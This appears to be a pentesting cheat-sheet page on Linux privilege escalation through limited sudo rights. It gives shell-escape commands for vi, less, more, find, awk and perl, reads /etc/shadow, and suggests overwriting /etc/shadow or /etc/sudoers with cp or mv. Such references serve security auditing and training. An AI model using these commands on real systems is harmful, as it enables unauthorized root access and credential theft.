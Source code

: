 ### Abusing sudo-rights

If you have a shell that has limited sudo programs you might still be able to use it. Any program that can write or overwrite can be used. If you have `cp you can overwrite /etc/shadow or /etc/sudoers.   
`**`ht`**`  
The text/binary-editor HT running as sudo`

**nano**

**vi/vim**  
With vi it is even easier. Just open vi

```
sudo vi
:shell

:set shell=/bin/bash:shell    
:!bash
```

And you have shell.

**less**  
From less you can go into vi, and then into a shell

```
sudo less /etc/shadow
v
:shell
```

**more**  
You need to run more on a file that is bigger than your screen.

```
sudo more /home/pelle/myfile
!/bin/bash
```

**cp**  
Copy and overwrite /etc/shadow

**mv**  
Overwrite /etc/shadow or /etc/sudoers

**find**

```
sudo find / -exec bash -i \;

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

**python/perl/ruby/lua/etc**

```
sudo perl
exec "/bin/bash";
ctr-d
```
